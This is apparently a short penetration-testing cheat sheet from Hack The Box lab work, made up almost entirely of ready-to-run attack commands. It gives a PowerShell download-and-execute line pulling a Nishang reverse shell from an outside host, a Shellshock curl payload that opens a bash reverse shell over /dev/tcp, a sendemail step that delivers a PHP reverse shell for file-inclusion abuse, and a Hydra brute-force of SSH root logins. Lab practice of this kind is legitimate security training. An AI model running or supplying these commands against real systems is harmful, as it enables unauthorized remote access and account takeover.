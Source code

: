 # Exploit

## Reverse powershell using Nishang
```
cp post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 HTB/chatterbox/
powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')\""
```

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login
